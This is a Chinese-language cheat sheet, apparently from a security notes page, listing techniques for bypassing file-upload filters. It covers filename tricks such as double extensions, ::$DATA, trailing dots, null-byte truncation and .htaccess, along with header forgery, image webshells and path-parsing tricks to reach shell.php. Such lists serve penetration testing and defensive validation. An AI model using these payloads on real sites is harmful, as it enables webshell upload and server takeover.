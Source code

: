 - 换行
    - `xxx.txt%0aphp`
    - `xxx.ph\np`
- .空格. 绕过(windows)
    - `xxx.php .`
    - `xxx.php .jpg`
    - `xxx.php. .jpg`
- 特殊字符
    - `xxx.php::$DATA` (windows)
    - `xxx.php::$DATA......` (windows)
    - `xxx.php/`
    - `xxx.php?`
    - `xxx./php` (linux)
- 特殊字符+白后缀
    - `xxx.php.jpg`
    - `xxx.php_.jpg`
    - `xxx.php/1.jpg`
    - `xxx.php{}.jpg`
    - `xxx.php;jpg`
    - `xxx.php;.jpg`
    - `xxx.php;+x.jpg`
    - `xxx.php:1.jpg`
    - `xxx.php.123`
    - `xxx.jpg/.php`
    - `xxx.jpg/php`
    - `xxx.jpg/1.php`
    - `xxx.jpg{}.php`
- 双写绕过
    - `phpphp.php`
    - `php.php`
    - `xxx.pphphp`
    - `xxx.asaspxpx`
- 00 截断
- .htaccess
- 中间件解析漏洞
- 参数
    - 修改 `filename="xx.php"` 为 `filename==="xxx.php"`
    - 修改 `filename="xx.php"` 为 `filename='xxx.php'`
    - 修改 `filename="xx.php"` 为 `filename=xxx.php`
- 添加图片头
    - `GIF89a`
- 恶意覆盖
	- 覆盖资源文件造成全局XSS
	- 覆盖配置文件修改配置
- Content-Type Fuzz
- 后端二次渲染
	- 图片马
- 访问拦截
	- 路径
		- `xxx.com/test/img/1.png/../../shell.php`
	- 解析
		- `xxx.com/shell.php;/.png`

